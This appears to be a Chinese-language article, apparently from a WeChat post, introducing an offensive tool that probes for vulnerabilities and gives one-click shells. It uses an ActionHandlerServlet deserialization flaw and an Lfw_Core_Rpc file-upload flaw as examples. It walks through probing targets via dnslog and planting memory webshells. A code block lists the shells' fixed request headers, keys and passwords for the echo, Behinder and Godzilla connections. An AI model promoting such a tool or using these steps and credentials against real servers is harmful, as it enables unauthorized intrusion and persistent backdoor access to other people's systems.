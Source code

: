   
目前实现功能模块：漏洞探测、一键 getshell、命令执行、文件上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgKeMDekjA8KRnSMicf6T2uliceTxxUwQbWK89u7MF3VxwXks0cuZ3VfUmNrmELTKHFkDlIDApxnGDw/640?wx_fmt=png&from=appmsg "")  
## 漏洞探测  
  
以 ActionHandlerServlet 反序列化 漏洞为例。  
  
选择漏洞，填写必要信息，点击探测，可自行在 dnslog 平台查看结果。  
  
经测试，部分站点反序列化漏洞状态码 404、500 均有 dnslog，建议以 dnslog 平台记录为准。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgKeMDekjA8KRnSMicf6T2ul46sdNysYq1Nyo2RoiaYia6cGRwNqaZSb6aNoFBWfRH3JPPhSln9Z8arQ/640?wx_fmt=png&from=appmsg "")  
## 一键 getshell  
  
本工具一键 getshell 功能打入的 webshell 同时打入回显、冰蝎、哥斯拉。请求头与连接密码信息均为下方所示。  
  
反序列化漏洞打入内存马情况以实际连接情况为准。  
```
Filter 内存马连接地址：http://x.x.x.x/...网站目录.../*--------------------------------------------------------------------------------------------
回显
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:testzxcv
testzxcv:<base64编码后命令>--------------------------------------------------------------------------------------------
冰蝎
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:behinder
密码
chaveyyds--------------------------------------------------------------------------------------------
哥斯拉
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:godzilla
密钥
chaveyyds
密码
pass
```  
  
以 Lfw_Core_Rpc 文件上传 漏洞为例。  
  
选择漏洞，输入目标url，点击 getshell。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgKeMDekjA8KRnSMicf6T2ulpjTkhjb6QXlvjEg3YN7ZdDcqb5J3vHTN1LBSMez8Vau0C1cA7MRBRA/640?wx_fmt=png&from=appmsg "")  
  
根据连接信息连接利用即可。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgKeMDekjA8KRnSMicf6T2ulzeTHGjAia7b6Uq4icADsNpHgTyrzYNIWCJPd78VaMI3bpqzHJvuicNz1A/640?wx_fmt=png&from=appmsg "")  
  